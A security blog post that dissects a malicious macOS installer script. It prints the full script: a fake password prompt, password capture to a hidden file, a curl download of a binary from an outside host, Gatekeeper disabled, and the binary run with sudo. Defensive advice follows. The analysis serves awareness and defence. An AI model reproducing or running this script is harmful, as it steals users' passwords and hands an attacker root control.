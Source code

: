 ```yaml
---
layout: post
title: "Anatomy of a macOS Attack: Deconstructing a Malicious Shell Script"
date: 2025-07-20
tags: [security, macos, bash, devops, malware, incident]
description: "A chilling breakdown of a sophisticated macOS shell script attack, revealing how easily trust can be exploited for total system compromise. Learn to deconstruct and defend against similar threats."
image: "/public/images/blog200725.png" # Path to the specific image for this blog post
og_type: "article" # Explicitly set for blog posts
---
```


## Introduction

As DevOps and backend engineers, we live in the terminal. We use `curl`, run installation scripts, and automate tasks with a level of trust in our tools. But this familiarity can lead to complacency. I recently came across a malicious script that serves as a chilling reminder of how easily that trust can be exploited to achieve total system compromise.

This script isn't just a proof-of-concept; it's a well-crafted piece of malware designed to trick a technical user into handing over their password and giving an attacker full root access. Let's break it down line-by-line.

## The Full Malicious Script

Here is the complete script captured from the attack. At first glance, some parts might look like a standard, albeit poorly written, installer. But the devil is in the details.

```bash
#!/bin/bash

BASE_URL="[https://wireshield.pro](https://wireshield.pro)"
mkdir -p ~/.autologin

echo "Please enter your password to continue installation"
CORRECT_PASS=""
while true; do
    echo -n "Password:"
    read -s USER_PASSWORD
    echo

    dscl /Local/Default -authonly ${SUDO_USER:-${USER}} $USER_PASSWORD > /dev/null 2>&1

    if [[ $? -eq 0 ]]; then
        echo "$USER_PASSWORD" > ~/.autologin/pass.txt
        CORRECT_PASS="$USER_PASSWORD"
        break
    else
        echo "Sorry, try again."
    fi
done

echo "$CORRECT_PASS" | sudo -S echo ""

arch=$(uname -m)

if [[ $arch == "x86_64" ]]; then
    URL="$BASE_URL/x64"
elif [[ $arch == "arm64" ]]; then
    URL="$BASE_URL/arm64"
else
    echo "Unknown architecture: $arch"
    exit 1
fi

FILE=$(basename "$URL")
echo "Downloading $FILE from $URL..."
curl -O "$URL"

if [ $? -ne 0 ]; then
    echo "Error downloading the file."
    exit 1
fi

sudo spctl --master-disable
echo "Running the application..."
chmod +x "$FILE"
sudo open "$FILE"
sudo spctl --master-enable
````

-----

## Step-by-Step Breakdown

Let's dissect what this script is actually doing.

### 1\. The Setup: Creating a Hiding Spot

```bash
BASE_URL="[https://wireshield.pro](https://wireshield.pro)"
mkdir -p ~/.autologin
```

The script starts by defining its command and control (C2) server. Then, it immediately creates a **hidden directory** (`.autologin`) in the user's home folder. Using a `.` prefix hides it from a standard `ls` command, making it a perfect place to stash stolen data.

### 2\. The Lure: The Password Prompt

```bash
while true; do
    echo -n "Password:"
    read -s USER_PASSWORD
    ...
done
```

This is pure **social engineering**. The script mimics a legitimate installer asking for administrative rights. The `read -s` command ensures the password isn't echoed to the terminal, adding to the illusion of a secure process.

### 3\. The Trick: Local Password Validation

```bash
dscl /Local/Default -authonly ${SUDO_USER:-${USER}} $USER_PASSWORD > /dev/null 2>&1
if [[ $? -eq 0 ]]; then
    ...
```

This is the most clever part of the script. It uses `dscl`, the native macOS Directory Service command-line utility, to **check if the password is correct**. The `-authonly` flag does this without actually logging in or changing users. Because it’s a legitimate system tool, it doesn't raise suspicion. The script then checks the exit code (`$?`). A `0` means success—the user entered the correct password.

### 4\. The Theft: Capturing the Credentials

```bash
echo "$USER_PASSWORD" > ~/.autologin/pass.txt
break
```

This is the moment the attack succeeds. Once the password is validated, the script **writes it in plain text** into the `pass.txt` file inside the hidden directory it created earlier. It now has the user's password.

### 5\. The Payload: Escalation and Execution

```bash
# Determine architecture (x86_64 or arm64) and download the binary
URL="$BASE_URL/x64" # or /arm64
curl -O "$URL"

# Disable Gatekeeper to run unverified apps
sudo spctl --master-disable

# Make the binary executable and run it with root privileges
chmod +x "$FILE"
sudo open "$FILE"

# Re-enable Gatekeeper to cover its tracks
sudo spctl --master-enable
```

With the password captured, the script proceeds to:

1.  Determine the Mac's architecture (`uname -m`).
2.  Download a malicious binary (`x64` or `arm64`) from the C2 server.
3.  **Disable Gatekeeper** (`spctl --master-disable`), macOS's core security feature that prevents unverified apps from running.
4.  **Run the malicious binary with `sudo`**, giving the attacker full root control.
5.  Finally, it re-enables Gatekeeper to hide the fact that system security settings were ever changed.

-----

## Key Takeaways for Developers

This script is a masterclass in exploiting trust and using a system's own tools against it.

  * **Never blindly trust an installer script.** The convenience of `curl | sh` is not worth the risk of total system compromise.
  * **Download and read first.** Always download a script to a local file and read every line before executing it. If you had read this one, the `echo "$USER_PASSWORD" > ...` line would have been a massive red flag.
  * **Question every password prompt.** A script asking for your main user password should be treated with extreme suspicion.
  * **Monitor your system.** Tools like `Little Snitch` can alert you to unexpected outgoing network connections, which could have flagged the download of the `x64` binary.

## References & Further Reading

  * This analysis is based on the incident bravely shared by a security professional. The original video detailing the attack can be found here: [I got hacked](https://www.youtube.com/watch?v=Y1BopTNVoZE).

## Conclusion

This attack highlights a critical vulnerability that isn't in the code, but in human behavior. As engineers, our comfort with the command line is an asset, but it can be turned against us. Stay skeptical, stay vigilant, and **always read the code**.

